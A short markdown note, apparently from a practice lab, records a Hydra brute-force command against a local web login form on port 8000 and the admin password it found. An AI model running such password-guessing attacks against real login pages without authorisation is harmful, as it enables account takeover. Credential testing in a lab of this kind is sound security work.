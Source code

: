 
## Hydra brute-force result
Command used:
hydra -f -I -V -l admin -P passwords.txt -t 1 -s 8000 127.0.0.1 http-form-post "/login:username=^USER^&password=^PASS^:F=Invalid"

Result:
(login: admin   password: 12345admin) — valid credentials found.
